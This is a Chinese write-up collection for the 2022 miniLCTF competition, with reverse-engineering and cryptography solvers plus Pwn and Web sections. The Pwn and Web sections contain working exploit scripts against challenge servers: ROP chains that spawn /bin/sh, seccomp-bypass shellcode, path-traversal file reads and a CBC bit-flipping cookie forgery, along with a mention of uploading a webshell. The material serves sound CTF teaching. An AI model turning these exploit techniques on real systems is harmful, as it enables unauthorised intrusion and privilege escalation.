void FUN_00100828(undefined4 *param_1)

{
  *param_1 = 0;
  *(undefined *)(param_1 + 6) = 0xf1;
  *(undefined **)(param_1 + 8) = &LAB_00100b7e;
  *(undefined *)(param_1 + 10) = 0xf2;
  *(undefined **)(param_1 + 0xc) = &LAB_00100bfe;
  *(undefined *)(param_1 + 0xe) = 0xf3;
  *(undefined **)(param_1 + 0x10) = &LAB_00100974;
  *(undefined *)(param_1 + 0x12) = 0xf4;
  *(undefined **)(param_1 + 0x14) = &LAB_00100a10;
  *(undefined *)(param_1 + 0x16) = 0xf5;
  *(undefined **)(param_1 + 0x18) = &LAB_00100af0;
  return;
}
```

这里是对每一个值赋了一个LAB，LAB里是函数。比如对0xf1赋了LAB_00100b7e。
如果感觉很抽象，可以参考以下C代码：
``` c
void vm_init(vm_cpu *cpu) {
    cpu->eip = vm_code;

    cpu->op_list[0].opcode = 0xf1;
    cpu->op_list[0].handler = mov;

    cpu->op_list[1].opcode = 0xf2;
    cpu->op_list[1].handler = xor;

    cpu->op_list[2].opcode = 0xf3;
    cpu->op_list[2].handler = my_read;

    cpu->op_list[3].opcode = 0xf4;
    cpu->op_list[3].handler = my_push;
}
```

当然，这个代码并不是本题的函数，只是帮助理解……

handler是执行的函数，这里实际上**是一个虚拟机的初始化操作**，也就是给每个函数一个标记值，后续通过这个值来触发函数。

FUN_00100934：

``` c
void FUN_00100934(int *param_1)

{
  while ((&DAT_00102018)[*param_1] != -1) {
    FUN_001008ba(param_1);
  }
  return;
}
```

实际上就是取DAT_00102018处的数据，当值不为-1时，执行数据对应的函数，也就是上面所说的对每一个函数赋一个相应值的操作，这称为虚拟机的opcode。
DAT_00102018提取出来的opcode如下：
```
f3,00,  f4,e1,  f4,e2,  f2,04,0b,  f5,
f3,02,  f4,e1,  f4,e2,  f2,04,0b,  f5,f1,ff
```

一个很简易的虚拟机，只有两轮，每轮5个函数 ~~可以直接手撕~~

各个LAB里的函数分别如下：

Function_00100b7e：

``` c
void UndefinedFunction_00100b7e(int *param_1)

{
  int iStack20;
  
  for (iStack20 = 0; iStack20 < 4; iStack20 = iStack20 + 1) {
    if (*(longlong *)(&DAT_001020c8 + (longlong)iStack20 * 8) !=
        *(longlong *)(&DAT_00102030 + (longlong)iStack20 * 8)) {
      FUN_00100760("Wrong!");
      FUN_00100750(0);
    }
  }
  *param_1 = *param_1 + 1;
  return;
}
```

这个就是取加密后的密文跟DAT_00102030里的值对比，不一致就报Wrong!，所以可以确定DAT_00102030就是密文数据。

Function_00100bfe：

``` c
void UndefinedFunction_00100bfe(int *param_1)

{
  if (DAT_00102108 < (int)(uint)(byte)(&DAT_00102018)[*param_1 + 2]) {
    *param_1 = *param_1 - (uint)(byte)(&DAT_00102018)[*param_1 + 1];
    DAT_00102108 = DAT_00102108 + 1;
  }
  else {
    DAT_00102108 = 0;
    *param_1 = *param_1 + 3;
  }
  return;
}
```

这里有点抽象……这里对应的opcode是f2，相应的opcode操作数是f2,04,0b
具体而言就是`*param_1`值为f2的时候触发此函数，然后检查DAT_00102108（初始值为0）处的值，如果小于`[*param_1 + 2]`（也就是0b），那么就给`param_1`的索引减去`[*param_1 + 1]`（也就是4），再给DAT_00102108自增；否则将DAT_00102108置0，`param_1`的索引加3。
回头看opcode，给`param_1`的索引减去4的话重新跳到第一个f4处，`param_1`的索引加3也就是执行完毕f2的opcode，开始执行f5。所以这实际上是一个循环的操作，循环12轮（0b+1）f4,e1,f4,e2这段opcode，循环结束就继续向下执行。

Function_00100974：

``` c
void UndefinedFunction_00100974(int *param_1)

{
  *(longlong *)(param_1 + 2) =
       *(longlong *)(&DAT_001020e8 + (longlong)(int)(uint)(byte)(&DAT_00102018)[*param_1 + 1] * 8) +
       DAT_00102008;
  *(longlong *)(param_1 + 4) =
       *(longlong *)(&DAT_001020e8 + (longlong)(int)((byte)(&DAT_00102018)[*param_1 + 1] + 1) * 8) +
       DAT_00102010;
  *param_1 = *param_1 + 2;
  return;
}

```

一些初始化的赋值操作，没什么用可以不管（逃

Function_00100a10：

``` c
void UndefinedFunction_00100a10(int *param_1)

{
  if ((&DAT_00102018)[*param_1 + 1] == -0x1f) {
    *(ulonglong *)(param_1 + 2) =
         DAT_00102008 +
         ((*(ulonglong *)(param_1 + 4) ^ *(ulonglong *)(param_1 + 2)) >>
          ((longlong)-(int)*(undefined8 *)(param_1 + 4) & 0x3fU) |
         (*(ulonglong *)(param_1 + 4) ^ *(ulonglong *)(param_1 + 2)) <<
         ((longlong)(int)*(undefined8 *)(param_1 + 4) & 0x3fU));
  }
  if ((&DAT_00102018)[*param_1 + 1] == -0x1e) {
    *(ulonglong *)(param_1 + 4) =
         DAT_00102010 +
         ((*(ulonglong *)(param_1 + 4) ^ *(ulonglong *)(param_1 + 2)) >>
          ((longlong)-(int)*(undefined8 *)(param_1 + 2) & 0x3fU) |
         (*(ulonglong *)(param_1 + 4) ^ *(ulonglong *)(param_1 + 2)) <<
         ((longlong)(int)*(undefined8 *)(param_1 + 2) & 0x3fU));
  }
  *param_1 = *param_1 + 2;
  return;
}
```

这里就是主加密逻辑了。简单梳理一下逻辑就是：

``` c
#define ROTR(x,y) ((x>>(y&0x3f))|(x<<(64-y&0x3f)))
-0x1f:   A=ROTR(A^B,B)+DAT_00102008;
-0x1e:   B=ROTR(A^B,A)+DAT_00102010;
```

0x3f就是63，最多循环移位63位，所以被加密的密文每一轮必然是64位的。
这实际上是一个RC5加密（对应题目NotRC4），但是不知道的话好像也可以手逆，因为av神并没有用s盒之类的操作…… ~~他真的好温柔我真的哭死~~

Function_00100af0：

``` c
void UndefinedFunction_00100af0(int *param_1)

{
  *(undefined8 *)(&DAT_001020c8 + (longlong)DAT_0010210c * 8) = *(undefined8 *)(param_1 + 2);
  *(undefined8 *)(&DAT_001020c8 + (longlong)(DAT_0010210c + 1) * 8) = *(undefined8 *)(param_1 + 4);
  *(undefined8 *)(param_1 + 2) = 0;
  *(undefined8 *)(param_1 + 4) = 0;
  DAT_0010210c = DAT_0010210c + 2;
  *param_1 = *param_1 + 1;
  return;
}
```

一些赋值操作，没什么用(bushi

FUN_00100828分析结束。

FUN_00100934：
``` c
void FUN_00100934(int *param_1)

{
  while ((&DAT_00102018)[*param_1] != -1) {
    FUN_001008ba(param_1);
  }
  return;
}
```

实际上就是运行虚拟机，opcode不为-1时，调用其对应标签的函数。
此时再去分析opcode：
```
f3,00,  f4,e1,  f4,e2,  f2,04,0b,  f5,
f3,02,  f4,e1,  f4,e2,  f2,04,0b,  f5,f1,ff
```
f3对应的函数进行一些初始化赋值操作，两次f4进行第一次加密，然后f2控制循环，循环加密12轮，然后f5进行一些赋值操作，f1检查加密后的密文跟程序中的密文是否一致，ff退出虚拟机。
拿到密文，去逆着写加密过程来解密：

``` cpp
#include<stdio.h>
#include<stdint.h>
#define ROTR(x,y) ((x>>(y&0x3f))|(x<<(64-y&0x3f)))
int main()
{
    uint64_t A,B,x,y;
    A=0x4bc21dbb95ef82ca;
    B=0xf57becae71b547be;
    //A=0X80a1bdab15e7f6cd;
    //B=0xa3c793d7e1776385;
    //后16字节解出来是全0，所以不用管

    x=0x64627421;
    y=0x79796473;
    for (int i=0;i<12;i++)
    {
        B=ROTR(B-y,A)^A;
        A=ROTR(A-x,B)^B;
    }
    B-=y;
    A-=x;
    //printf("%x %x",A,B);
    for(int i=0;i<8;i++)
    {
        printf("%c",A&0xff);
        A>>=8;
    }
    for(int i=0;i<8;i++)
    {
        printf("%c",B&0xff);
        B>>=8;
    }
}
```

### lemon | 云之君

实际上是签到题，不过当时脑子太糊了，而且这个题有点小坑……

代码太长就不贴了，说实话只看几个关键部分就可以。

```assembly
30: const 27 ; 221492336 
35: store 0 0
38: const 28 ; next 
43: define 0 0 0 0 80
52: load 1 0
55: const 29 ; 3735928559 
60: mul
61: const 30 ; 2974593325 
66: add
67: const 31 ; 4294967295 
72: mod
73: store 1 0
76: load 1 0
79: return
```

38后面给了注释是next，可以自己下一个lemon编译器测一下，随便写一个变量的话字节码是不会保留变量名的，而next后面也没有创建list的操作，而且后面有return，可以推测是个函数。实际上可以从字节码的名字推断出来，next函数的作用就是返回`x*3735928559+2974593325 mod 4294967295`。翻一下后面发现next只有这一次调用，没有传入参数的机会，那么参数就只能是前面的常量221492336，把这个值作为全局变量引用。

后面创建空列表enc，创建空列表flag，一个有一堆数据的列表res。
这里注意一下，res列表里的值是倒着存的，不能理解的话可以用lemon编译器自己写个列表dis看看结果。

```assembly
334: const 34 ; enc 
339: getattr
340: const 73 ; append 
345: getattr
346: load 1 1
349: call 0
351: call 1
```

这里的call x实际上是一个类似栈的操作，把所有函数压栈，之后依次调用。
call 0就往上找最近的一个函数，在这里是append函数，call 1就继续往上找函数，再往上的函数只有next，所以这里写成lemon的形式就是`enc.append(next())`。

```assembly
429: const 35 ; flag 
434: getattr
435: const 73 ; append 
440: getattr
441: load 0 0
444: load 0 2
447: getitem
448: load 0 1
451: load 0 2
454: getitem
455: bxor
```

把enc和res里的值异或，append到flag列表里。这里实际上直接跑就是flag，不必逆向。

这里比较坑的就是，直接用python跑是跑不出来flag的，可能跟lemon这个编译器本身的数据类型有关……然后就是如果在windows平台上编译，默认是32位编译，linux上则是64位。
track神出题时用的环境是linux，然而我在windows上怎么也跑不通，所以后来给了出题时的编译环境……试了一下linux确实一跑就通，很迷惑……

``` js
var res= [330150339 ,665229750 ,1030425184 ,626644061 ,861166604 ,521761774 ,586337393 ,167708778 ,495518230 ,459905620 ,47689903 ,541128627 ,735310319 ,924471115 ,66957703 ,827308967 ,4680810 ,618187854 ,1041878913 ,424705310 ,258515107 ,301365991 ,238089888 ,126810196 ,160092960 ,333469062 ,524809386 ,334234642 ,532732060 ,701306806 ,755999918 ,219942343 ,37219027 ,76267819 ,2141786733];
var a = 0xdeadbeef;
var b = 0xb14cb12d;
var m = 0xffffffff;
var c = 0xd33b470;
var enc=[];
var i;
for(i=0;i<35;i+=1)
    {c=(a*c+b)%m;enc.append(c);};
for(i=0;i<35;i+=1)
    {print(enc[i]^res[34-i]);};
```

## Crypto

### DoubleS | b0y4nz
```python
解线性方程组:源题目代码
assert flag[:9] == b'miniLCTF{'
assert flag[-1:] == b'}'
flag = flag[9:-1]
flag = b'#' + flag + b'#' + os.urandom((64-len(flag)) % 64)

members = [
    "deebato","noah","innerspace","wanan","tr4ck",
    "lacanva","4va10n","Cyxq","blackbird","humour",
    "scardow","kiriota",
    "Reverier","ling","eqqie","Cor1e","shal10w",
    "Ga1@xy","blackw4tch","luoq1an","arttnba3","cdcq",
    "la0t0ng",
    "Frank","Reclu3e","s@dmess","Happy",
    "zkonge","Endcat","Fl@g","Wal1et",
    "w1nd","flight","koocola","huai","v0idred",
    "fa1con"
]

my_sec = [bytes_to_long(flag[i*4:i*4+4]) for i in range(16)]

n = 32
t = 32

class Sharing:
    def __init__(self,secret):
        self.A = secret
        self.init_func()

    def init_func(self):
        for i in range(n - 16):
            self.A.append(random.randrange(1,1<<32))
    
    def f(self,x):
        ret = 0
        tmp = 1
        for i in range(n):
            ret += self.A[i] * tmp
            tmp *= x
        return ret

def get_msg(name,SS):
    inp = bytes_to_long(name)
    cip = SS.f(inp)
    return name,cip

def main():
    SS = Sharing(my_sec)
    f = open("./outputs",'wb')
    for i in range(t):
        tmp_member = random.choice(members)
        members.remove(tmp_member)
        name , cipher = get_msg(tmp_member.encode(),SS)
        f.write(name + b" " + str(cipher).encode() + b"\n")
    f.close()
```
分析：
my_sec明显包含了flag，通过SS 的构造方法得到了A[32]，前16个元素就是my_sec
``` python
ret[i] += A[i]*pow(inp[i],i) for i in range(32)
我们把A[i]当作自变量x，系数收进系数矩阵A
即得到需要解的线性方程组 
A * X = ret'
A[i][j] = pow(inp[i],i)
下面求解X
-------------------------------
高斯消元法
1、从左往右消元，即消元顺序x_0,x_1,...x_30,x_31
from Crypto.Util.number import *
import fractions as f

for k in range(31):
    for i in range(31-k):
        tmp = f.Fraction(A[i][k],A[31-k][k])
        for j in range(32):
            A[i][j] = A[i][j] - A[31-k][j]*tmp
        ret[i] = ret[i] - ret[31-k]*tmp
        
    print(k)

x = []
for i in range(32):
    x.append(0)

for i in range(32):
    for j in range(i):
        ret[i] = ret[i] - A[i][31-j]*x[31-j]
    x[31-i] = ret[i]//A[i][31-i]

for i in range(32):
    print(long_to_bytes(x[i]))
print(x)
附上前几个结果
b'#y0u'
b'_c4n'
b'_s0l'
b've_i'
b'7_bY'
b'_L1n'
b'e@r_'
b'Alg3'
b'br4_'
b'e4si'
b'1y~!'
b'#[P\x82'
```
**消元不要A[0][j] = A[0][31] * A[31][31] - A[31][31] * A[0][31]**
乘起来太大了，跑不动。引入tmp = f.Fraction(A[i][k],A[31-k][k])避免浮点数溢出
### DoubleSS | b0y4nz
由DoubleS的进化版本，只给出了31行，即系数矩阵A是一个31行32列的矩阵。
解法：爆破x_0，(因为x_0的首位是#，且另外三位在table表中)
此处我先随手拿了一个x_0做测试
```python
高斯消元，因需要保留x_0,所以从右往左消元，顺序x_31,x_30...x_2
k=30
while k>0:
    for i in range(k):
        tmp = f.Fraction(A[i][k+1],A[k][k+1])
        for j in range(k+1):
            A[i][j] -= A[k][j]*tmp
        ret[i] -= ret[k]*tmp
    k = k-1
    print(k)

x = []
for i in range(32):
    x.append(0)
x[0]=b'#Yo5'            
x[0]=bytes_to_long(x[0])
i = 1
while i<32:
    for j in range(i):
        ret[i-1] -= A[i-1][j]*x[j]
    x[i] = ret[i-1]//A[i-1][i]
    i += 1

for i in range(32):
    print(long_to_bytes(x[i]))
print(x)

--------
b'#Yo5'
b'S_c/'
b'u1d_'
b'b3_b'
b'rUt3'
b'-f0r'
b'c3_1'
b'f_th'
b'3_c0'
b'eff_'
b'1s_s'
b'm4ll'
b'#EOJ'
b'Q1nl'
b'VLpf'
b'0tzd'
b'^\xca\xdb\xd8'
b'\x1e\xd5\x83('
b'\xd90E\xfd'
b'\xc5L\x92\xde'
b'`u\x07\xf2'
b'=C\xc5\xf6'
b'.\xcaI\xba'
b'Z\xa2\xc8\xf1'
b'\xf7\xd5\x9c\x16'
b'\xf8\xe6b\xc0'
b'\xa4B\xd5\xe7'
b'>C\xae\xdf'
b'\x17\xe0\xe2\xc6'
b'\xd7\xeb\x1f\xc7'
b'\xa8\r\x86l'
b'f#\xe4\xae'
感觉x_31很像正确答案，我将x_31带入上一题从左往右的消元顺序的到的方阵中，可以很容易解出全部解，是正确的
也可以爆破所有x_0即为正确解。
```
### DoubleSS_revenge | b0y4nz
进阶进阶，与上一题的不同，只是ret[i]%p
同理采用消元的办法，最后爆破x_0
```python
等号右边进行了模运算，左边同样遇见数都进行取模即可
p = 112271122468472288207485069486813276915675932522556339185353486655728218809599

A=[]
z1=[]
z2=[]
for i in range(31):
    c = []
    for j in range(32):
        c.append(pow(inp[i],j)%p)
    A.append(c)
    z1.append(c)
    ret[i] = ret[i]%p
    z2.append(ret[i])
#print(A)
k=30
while k>0:
    for i in range(k):
        tmp = f.Fraction(A[i][k+1],A[k][k+1])
        for j in range(k+1):
            A[i][j] = A[i][j]*A[k][k+1] - A[k][j]*A[i][k+1]
            A[i][j] %= p
        ret[i] = ret[i]*A[k][k+1] - ret[k]*A[i][k+1]
        ret[i] %= p
    k = k-1
    print(k)

for i in range(31):
    for j in range(31):
        z1[i][j]=A[i][j]
    z2[i] = ret[i]
#print(ret)
x = []
for i in range(32):
    x.append(0)

x[0]=b'#'
table = "ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890abcdefghijklmnopqrstuvwxyz!_@#$%^&"
for l in table:
    for h in table:
        for v in table:
            for i in range(31):
                for j in range(31):
                    A[i][j]=z1[i][j]
                ret[i]=z2[i] 
            x[0]=b'#'
            x[0] += l.encode()
            x[0] += h.encode()
            x[0] += v.encode()
            print(x[0])        
            x[0]=bytes_to_long(x[0])
            i = 1
            while i<32:
                for j in range(i):
                    ret[i-1] -= A[i-1][j]*x[j]
                
                ret[i-1]=int(ret[i-1])%p
                A[i-1][i]= int(A[i-1][i])%p
                ret[i-1] = (ret[i-1])%(p)
                inv = gmpy2.invert(A[i-1][i],p) #求乘法逆元
                x[i] = (ret[i-1]*inv)%p
                i += 1
            if len(long_to_bytes(x[1])) < 10:
                for i in range(32):
                    print(long_to_bytes(x[i]))
                print('------------------------------------------------------')
```
在最后求解A * X = ret % p 中,利用乘法逆元求解。
此处消元均利用的整数相乘之后再相减，保证过程中均为整数，由于是模p，运算量不大
### CoPiano | b0y4nz
这题我好恨啊。
前面的题一直想不起怎么做我认了，自己终于也是憋出来了。
这题真是。。。。
先附上代码。
```python
from Crypto.Util.number import *
import os
from flag import flag

nbit = 2048
p, q = getPrime(nbit // 2), getPrime(nbit // 2)
N = p * q
e = 3
cipher_block_length = nbit // 8
plain_block_length = cipher_block_length // 8

def pad(msg):
    return msg + ((plain_block_length - len(msg) % plain_block_length) % plain_block_length) * b'\x00'

def block_enc(msg):
    m = bytes_to_long(msg)
    x = bytes_to_long(os.urandom(plain_block_length))

    c = long_to_bytes(pow(m ^ x, e, N)).rjust(cipher_block_length,b'\x00')
    t = m & x
    return c , (x,t)

def ecb_mode_enc(msg):
    plain_block = [msg[plain_block_length * i: plain_block_length * (i + 1)] for i in range(len(msg) // plain_block_length)]
    cipher_text = b''
    x_list = []
    t_list = []
    for msg_part in plain_block:
        cipher_part , (x_tmp,t_tmp) = block_enc(msg_part)
        cipher_text += cipher_part
        x_list.append(x_tmp)
        t_list.append(t_tmp)
    return cipher_text , x_list , t_list

cipher , x_list, t_list = ecb_mode_enc(pad(flag))

f = open("./output",'wb')
f.write(b"N =" + str(N).encode() + b'\n')
f.write(b"e =" + str(e).encode() + b'\n')
f.write(b"c =" + cipher + b'\n')
f.write(b"x_list =" +str(x_list).encode() + b'\n')
f.write(b"t_list =" +str(t_list).encode() + b'\n')
f.close() 
```
这个看到e=3,直接想到低加密指数攻击。并且明文只有32字节，n非常大，加密完结果与n相差较大，可以直接找到明文。传统的遍历基本不可能，百度了一下，有位老哥的代码很好用。
https://blog.csdn.net/shuaicenglou3032/article/details/119930783
然后我们只需要分六组解密文就可以。
> 不过你以为的密文真的是密文吗？
> 密文是从文件读取的。
如果直接用记事本打开，然后把除了密文其他都删掉，然后read()读密文。恭喜你，读的是错的，确实离谱，最终在dbt神的指导下也算完成了任务，应该是换行符的问题，读取方式改为readline()
附上解密代码。
```python
x_list =[89599996522125494728132065796081314888810950095181744512992356094917495827443, 111979904109756127394693679024647005275390867856812731994635347988900596298901, 106209012329777910330837000863123340116235602175776978549841304856845930037121, 18173721445537427668177128539415608714155641511817069640781972116265623529623, 81507795317783462067383199855617452525104003153691291402800284746422706616929, 33854282304827101977159638930122849867940456079942035936413397560316807528057]
t_list =[30759544486063570688860219879387102783547151285697461243698476828942537859168, 45684268045908628534389489460421258486103756929759619145835441239375997050885, 47153891839807896976831212745370875626929694348851552426519136773945719614976, 14540075752480743007439285282769614519129399754512051542462921184787579281415, 14532773489254802771844322584435345295138446685678524359091428883876727759457, 33499974240730319678796819208752236675597746143166267811713245828429274677248]

cipher_block_length = 2048 // 8
plain_block_length = cipher_block_length // 8
f = open("./output",'rb')
N = int(f.readline()[3:-1])
e = int(f.readline()[3:-1])
c = (f.readline()[3:])
while 1:
    tmp = f.readline()
    if b'x_list' in tmp:
        break
    c += tmp
cipher_block = [c[cipher_block_length * i: cipher_block_length * (i + 1)] for i in range(len(c) // cipher_block_length)]
shi = []
print(len(c))
def CRT(items):
    N = reduce(lambda x, y: x * y, (i[1] for i in items))
    result = 0
    for a, n in items:
        m = N // n
        d, r, s = gmpy2.gcdext(n, m)
        if d != 1:
            raise Exception("Input not pairwise co-prime")
        result += a * s * m
    return result % N, N
i = 0
for c in cipher_block:
	c = bytes_to_long(c)
	c = [c]
	n = [n]
	data = list(zip(c, n))
	x, n = CRT(data)
	p = gmpy2.iroot(gmpy2.mpz(x), e)[0].digits()
	print('m is: ' + p)
	m = int(p) ^ x_list[i]
	t = m & x_list[i]
	print(long_to_bytes(m))
	i += 1
打印结果：
m is: 66247312209499902172825914584200693661224352792484374425267890616093362446235
b'Take a piano. The keys begin, th'
m is: 66352246053525551429336863916162857039422437993451448623005501877665304089840
b'e keys end. You know there are e'
m is: 59576783920807254641156500163835080291999426086857585488907230127766169194913
b'ighty eight of them, nobody can '
m is: 41741060233477101906640796430507244101876632282701341065027604396815452916208
b'tell you any different.( ps:flag'
m is: 67102573003619429382822400912461284097216728580700205710941093323635833429000
b' is ) miniLCTF{th3y$4re_n07_1nfi'
m is: 16696126004110232712645604626668424559830025231404920607689115550688052428409
b'n1te.U_@re_!nfinit&!}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```
**2022miniL wp 第一次真正的写wp，真的有认真在打比赛，不过这几天确实很折磨，晚上睡觉脑子都是p,n,q,d只能说值得吧，也学到了很多，明白自己确实是有兴趣的。大学就要做自己感兴趣的**

## Pwn

### Easy HTTPd | Humoooor

程序大体就是开个 websocket，端口为2048

接收到`User-Agent：MiniL\r\n\r\n`给通过

接收到`GET `将后续内容作为文件打开，把文件内容发送回来，过滤了`/home/minil/flag`

```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10018)
#p = process('./' + __file__[0:-3])
#p = remote('127.0.0.1', 2048)
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])

# gdb.attach(p)

payload = b''
payload += b'GET ./flag\r\n'
payload += b'User-Agent: MiniL\r\n\r\n'

p.sendline(payload)

p.interactive()
```

### Gods | Humoooor

线程栈溢出

`vuln`里面给了栈上任意地址写和`40`个字节溢出，先爆破出`stack_guard`的位置

```python
offset = 10
new_canary = "aaaaaaa"

def blast():
    while True:
        offset += 1
        p.close()
        p = process('./' + __file__[0:-3])

        p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
        p.sendline("yes")

        rank_name(p, offset, new_cannry)
        rank_name(p, 2, "addd")

        gdb.attach(p, "thread 2\nb *0x40141D\nc")
    
        p.recvuntil("Finally, what's your name?\n")
        p.sendline((0x20 - 8) * "a" + 7 * "a")
        p.recvall()

        print(offset)
```

最后得出`offset = 272`，后面就是栈迁移+ROP

```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10100)
# p = process('./' + __file__[0:-3])
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc-2.31.so")

new_cannry = "aaaaaaa"
offset = 272
plt_puts = elf.plt["puts"]
got_puts = elf.got["puts"]
pop_rdi = 0x00000000004015d3
pop_rsi_r15 = 0x00000000004015d1
leave_ret = 0x000000000040142d
ret = 0x000000000040142E
addr_vuln = elf.sym["vuln"]

def rank_name(p, offset, data) :
    p.recvuntil("Rank: ")
    p.sendline(str(offset))
    p.recvuntil("Name: ")
    p.sendline(data)

def blast():
    while True:
        offset += 1
        p.close()
        p = process('./' + __file__[0:-3])

        p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
        p.sendline("yes")

        rank_name(p, offset, new_cannry)
        rank_name(p, 2, "addd")

        gdb.attach(p, "thread 2\nb *0x40141D\nc")
    
        p.recvuntil("Finally, what's your name?\n")
        p.sendline((0x20 - 8) * "a" + 7 * "a")
        temp = p.recvall()

        print(offset)
    
p.recvuntil("Do you know who is the God of XDSEC? (*^_^*)\n")
p.send("yes\n")

rank_name(p, offset, new_cannry)
rank_name(p, 2, "addd")

p.recvuntil("Finally, what's your name?\n")
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0x404100) + p64(pop_rdi) + p64(got_puts) + p64(plt_puts) + p64(addr_vuln)[:-1])
p.send("\n")

p.recvuntil("you can be a god of XDSEC!\n")
addr_puts = u64(p.recv(6).ljust(8, b"\x00"))
print(hex(addr_puts))
addr_libc = addr_puts - libc.sym['puts']
addr_gets = addr_libc + libc.sym['gets']
addr_system = addr_libc + libc.sym['system']

addr_syscall = addr_libc + 0x000000000002284d
pop_rdx_r12 = addr_libc + 0x0000000000119241
pop_rax = addr_libc + 0x0000000000047400

gdb.attach(p, "thread 2")

p.recvuntil("Finally, what's your name?\n")
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0) + p64(pop_rdi) + p64(0x404060) + p64(addr_gets) + p64(addr_vuln))

p.send(b"/bin/sh\x00" + p64(ret) + p64(pop_rdi) + p64(0x404060) + p64(pop_rsi_r15) + p64(0) * 2 + p64(pop_rdx_r12) + p64(0) * 2 + p64(pop_rax) + p64(59) + p64(addr_syscall))
p.send("\n")

p.recvuntil("Finally, what's your name?\n")
p.send((0x20 - 8) * b"a" + 7 * b"a" + b"\x00")
p.send(p64(0x404060) + p64(leave_ret))
p.send("\n")

p.interactive()
```

本人属于是把题目两个坑都给踩了

怎么会有人在`scanf`后面接上`gets`啊（

线程里不能直接调用`system`函数，坑了我一下午和一晚上

### shellcode | Humoooor

`shellcode` + 沙箱

```bash
➜  shellcode seccomp-tools dump ./shellcode
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000000  A = sys_number
 0001: 0x25 0x05 0x00 0x40000000  if (A > 0x40000000) goto 0007
 0002: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0007
 0003: 0x15 0x03 0x00 0x00000005  if (A == fstat) goto 0007
 0004: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0007
 0005: 0x15 0x01 0x00 0x00000009  if (A == mmap) goto 0007
 0006: 0x06 0x00 0x00 0x00000000  return KILL
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

没有检查架构，因此可以先使用`retfq`改成`32`位运行模式，利用`fstat`的`x64`系统调用号与`open`的`x86`系统调用号相同，打开`flag`，再回到`64`位运行模式，进行读写

```python
from pwn import *
p = remote('pwn.archive.xdsec.chall.frankli.site', 10049)
#p = process('./' + __file__[0:-3])
context(arch='amd64', os='linux', log_level='debug')
elf = ELF(__file__[0:-3])

open_x86 = '''
    /* open(file='./flag', oflag=0, mode=0) */
    /* push b'./flag\x00' */
    mov esp, 0x40404140
    push 0x1010101
    xor dword ptr [esp], 0x1016660
    push 0x6c662f2e
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    /* call open() */
    push SYS_open /* 5 */
    pop eax
    int 0x80
    mov ecx, eax
    push 0x33
    push 0x40404080
'''

retfq = 'retfq;'

open_x86 = b'\xbc@A@@h\x01\x01\x01\x01\x814$`f\x01\x01h./fl\x89\xe31\xc91\xd2j\x05X\xcd\x80\x89\xc1j3h\x80@@@'

mmap_buf = '''
    /* mmap(0x40404040, 0x100, 7, 34, 0, 0) */
    mov rdi, 0x40404040
    mov rsi, 0x100
    mov rdx, 7
    mov r10, 34
    xor r8, r8
    xor r9, r9
    mov rax, 9
    syscall
'''

read_buf = '''
    /* read(0, 0x40404040, 0x100) */
    mov rdi, 0
    mov rsi, 0x40404040
    mov rdx, 0x100
    mov rax, 0
    syscall
'''

read_write_flag = '''
    /* read(fd(3), buf(0x40404200), count, (42)) */
    mov rdi, rcx
    mov rsi, 0x40404200
    mov rdx, 42
    xor rax, rax
    syscall
    /*write(1, buf(0x40404200), count(42)) */
    mov rdi, 1
    mov rax, 1
    syscall
'''

push_0 = 'push 0;'
nop = 'nop;'

push_buf = 'push 0x23; push 0x40404040;pop rax; push rax;'

code = b''
code += asm(push_0)
code += asm(mmap_buf)
code += asm(read_buf)
code += asm(push_buf)
code += asm(retfq)

#gdb.attach(p)

p.sendline(code)

code = b''
code += open_x86 + asm(retfq)
code += (0x40 - len(code)) * asm(nop)
code += asm(read_write_flag)

sleep(1)
p.sendline(code)

p.interactive()
```

本来程序有一个识别到`retfq`就不执行的操作，被我用`push 0;`给过了（据出题人说这是个非预期

## Web

### checkin | Humoooor

看一下`user`格式

```
{Name: "guest", CreateAt: time, IP: ip}
```

然后用`AES`加密，由于题目中使用`CBC`加密方式，可以使用字节翻转攻击，把明文里的`guest`修改成`admin`

```python
import base64
from urllib import parse
import requests
from Crypto.Cipher import AES

# for n in range(0, 50):
n = 9
s = "MDAwMTE0NTE0MTkxOTgxMOSJAwAU25w+xwD1vPGvUJFzC5pjZHkNYZPk6Oemt/1+hemCgS01dtaQOn6AzORO5T0KSgZJwSVUqOVeciuqtP4="
s = base64.b64decode(s)
s = list(s)
s[n] = s[n] ^ ord('g') ^ ord('a')
s[n + 1] = s[n + 1] ^ ord('u') ^ ord('d')
s[n + 2] = s[n + 2] ^ ord('e') ^ ord('m')
s[n + 3] = s[n + 3] ^ ord('s') ^ ord('i')
s[n + 4] = s[n + 4] ^ ord('t') ^ ord('n')
# print(base64.b64encode(bytes(s)))

url = "http://2bd0c152-8019-43b7-9601-7f539392b2cd.archive.xdsec.chall.frankli.site:8080/home"
cookie = {'token': parse.quote(base64.b64encode(bytes(s)))}
res = requests.get(url, cookies=cookie)

print(str(res) + res.text)
```

wsm web里会有密🐎（

### include | Humoooor

先有一个身份验证`O:4:"user":1:{s:9:"usergroup";s:7:"Tourist";}`

把`Tourist`改成`Lteam`就可以了，然后上传一句话木马，真的有这么白给？

## Misc

### Paralympics | Humoooor

就一直用`CE`扫，然后手筛地址，有一个坑就是有可能找的是`camera`的地址，一改就会位置就会变

而实际的`player`每修改一次就要动一次视角，才能找到`player`的地址





```
miniLCTF{Ch4m-9th-4R7-p10N}
```

